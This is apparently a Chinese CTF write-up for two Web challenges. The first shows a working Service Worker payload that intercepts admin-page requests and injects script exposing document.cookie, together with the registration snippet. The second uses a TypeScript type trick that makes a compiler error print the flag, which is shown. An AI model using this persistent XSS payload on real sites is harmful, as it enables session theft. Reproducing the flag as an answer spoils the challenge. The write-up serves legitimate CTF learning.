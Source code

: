 ## 第二阶段
### \[Web\] 第三新XSS
#### 记忆
首先以 `application/javascript` 类型创建 Service Worker：
```JSON
{"Content-Type": "application/javascript", "Service-Worker-Allowed": "/"}
```
```JavaScript
self.addEventListener('fetch', (event) => {
    if (event.request.clone().url.includes('admin')) {
        event.respondWith(new Response('<script>setTimeout(\'document.title = `\\\\u{770B}\\\\u{770B}\\\\u{5927}\\\\u{51E0}\\\\u{628A}\\\\u{FF01}${document.cookie}`;\', 800);</script>', { headers: { 'Content-Type': 'text/html' } }).clone());
    };
});
```
然后注册该 Service Worker：
```HTML
<script>navigator.serviceWorker.register('/kannkann/', { scope: '/' });</script>
```
接下来就来（略）啊嗯。

![](img/看看%20Flag！.png)

### \[Web\] 简单的打字稿
#### Super Easy
我让 ChatGPT 写了个把 String literal type 拆分的代码，然后稍加修改：
```TypeScript
type Split<S extends string, D extends string> = string extends S ? string[] : S extends '' ? [] : S extends `${infer T}${D}${infer U}` ? [...Split<U, D>] : [S];
type ikuzo = Split<flag1, 'flag'>;
let x: ikuzo = ['1919810'];
```
于是它非常顺利地报错了：
```
[+] Stderr:
Check file:///app/$deno$stdin.ts
error: TS2322 [ERROR]: Type '"1919810"' is not assignable to type '"{TOo0_e4sY_f1aG_foR_Tooo_easy_LANg}"'.
let x: ikuzo = ['1919810'];
                ~~~~~~~~~
    at file:///app/$deno$stdin.ts:6:17
```
